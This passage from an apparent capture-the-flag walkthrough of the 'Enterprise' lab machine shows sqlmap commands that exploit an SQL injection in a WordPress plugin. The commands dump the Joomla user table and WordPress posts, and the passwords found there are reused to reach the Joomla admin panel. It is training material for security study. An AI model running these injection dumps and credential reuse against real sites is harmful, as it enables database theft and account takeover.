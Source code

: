 ![](/Linux/Linux-Medium/Enterprise/Screenshots/users.png)

Dumping the Joomla user list and attempting to reuse some of the passwords found on Wordpress will grant access to the Joomla administrator panel.

```sh
sqlmap -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php\?query\=1 --threads 10 -D joomladb -T edz2g_users -C username --dump
```

![](/Linux/Linux-Medium/Enterprise/Screenshots/joomal.png)

I’ll dump the `wp_posts` table as well:

```sh
sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_posts --dump
```

This prints a huge amount of output that’s difficult to show in the terminal. But it does also write it to a file as a `.csv`, so I can open it in Excel or even just `less -S` (turns off line wraps) to explore it. Or I can remember that it was three posts titled “Passwords” and use `grep`

```sh
grep 'Passwords'  /home/leshack/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv
```
